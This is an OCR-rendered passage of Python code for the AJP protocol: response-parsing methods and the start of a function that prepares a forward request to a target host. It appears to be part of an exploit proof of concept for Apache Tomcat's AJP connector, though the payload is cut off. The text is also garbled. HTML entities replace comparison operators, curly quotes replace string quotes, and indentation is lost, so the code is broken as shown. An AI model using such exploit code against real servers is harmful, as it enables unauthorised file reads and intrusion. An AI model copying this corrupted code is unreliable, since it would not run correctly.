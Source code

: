 	else:
		raise NotImplementedError

def parse_send_headers(self, stream):
	self.http_status_code, = unpack(stream, "&gt;H")
	self.http_status_msg = unpack_string(stream)
	self.num_headers, = unpack(stream, "&gt;H")
	self.response_headers = {}
	for i in range(self.num_headers):
		code, = unpack(stream, "&gt;H")
		if code &lt;= 0xA000: # custom header
			h_name, = unpack(stream, "%ds" % code)
			stream.read(1) # \0
			h_value = unpack_string(stream)
		else:
			h_name = AjpResponse.COMMON_SEND_HEADERS[code-0xA001]
			h_value = unpack_string(stream)
		self.response_headers[h_name] = h_value

def parse_send_body_chunk(self, stream):
	self.data_length, = unpack(stream, "&gt;H")
	self.data = stream.read(self.data_length+1)

def parse_end_response(self, stream):
	self.reuse, = unpack(stream, "b")

def parse_get_body_chunk(self, stream):
	rlen, = unpack(stream, "&gt;H")
	return rlen

@staticmethod
def receive(stream):
	r = AjpResponse()
	r.parse(stream)
	return r 
```

import socket

def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):

fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)

fr.method = method

fr.protocol = “HTTP/1.1”

fr.req_uri = req_uri

fr.remote_addr = target_host

fr.remote_host = None

fr.server_name = target_host

fr.server_port = 80

fr.request_headers = {

‘SC_REQ_ACCEPT’: ‘text/html’,

‘SC_REQ_CONNECTION’: ‘keep-alive’,

‘SC_REQ_CONTENT_LENGTH’: ‘0’,

‘SC_REQ_HOST’: target_host,
```